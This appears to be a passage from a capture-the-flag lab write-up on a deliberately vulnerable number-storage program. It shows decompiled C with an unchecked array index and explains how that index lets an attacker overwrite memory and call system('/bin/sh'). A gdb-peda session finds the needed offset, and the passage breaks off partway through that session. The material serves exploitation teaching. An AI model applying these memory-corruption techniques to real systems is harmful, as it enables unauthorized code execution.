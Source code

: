 ```c
int store_number(int storage_offset) {
  uint user_value;
  uint user_index;

  printf(" Number: ");
  user_value = get_unum();
  printf(" Index: ");
  user_index = get_unum();
  if ((user_index % 3 == 0) || (user_value >> 0x18 == 0xb7)) {
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    return 1;
  } else {
    *(uint *)(user_index * 4 + storage_offset) = user_value;
    return 0;
  }
}
```

There's no check if the index is within bounds (less than 100)! That said, there are two things to keep in mind when we're storing numbers in memory:
1. The user-provided index can't be a multiple of 3
2. The user-provided value can't fulfill the statement `(user_value >> 0x18 == 0xb7)`.

Using this vulnerability, we'll exploit the program by calling `system` with the argument `"/bin/sh"` when the `while` loop exits (with the `"quit"` command)

To change what happens when the program is finishing, the offset needs to be acquired. Instead of using the buffer overflow pattern generator, the offset can be found by putting a breakpoint before `store_number()` or `read_number()`, getting the `EIP` value, and subtracting the `EAX` address. _Keep in mind that these values may change between systems!_

```
gdb-peda$ disass main
[...]
   0x08048919 <+502>:	sub    cl,al
   0x0804891b <+504>:	mov    eax,ecx
   0x0804891d <+506>:	movsx  eax,al
   0x08048920 <+509>:	test   eax,eax
   0x08048922 <+511>:	jne    0x8048939 <main+534>
   0x08048924 <+513>:	lea    eax,[esp+0x24]
   0x08048928 <+517>:	mov    DWORD PTR [esp],eax
-> 0x0804892b <+520>:	call   0x80486d7 <read_number>	      # we want to break here
   0x08048930 <+525>:	mov    DWORD PTR [esp+0x1b4],eax
[...]
gdb-peda$ b *0x0804892b
Breakpoint 1 at 0x804892b
gdb-peda$ run
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

[----------------------------------registers-----------------------------------]
EAX: 0xffffd4f4 --> 0x0                            # return value of eax (beginning of stack)
EBX: 0xffffd4f4 --> 0x0
```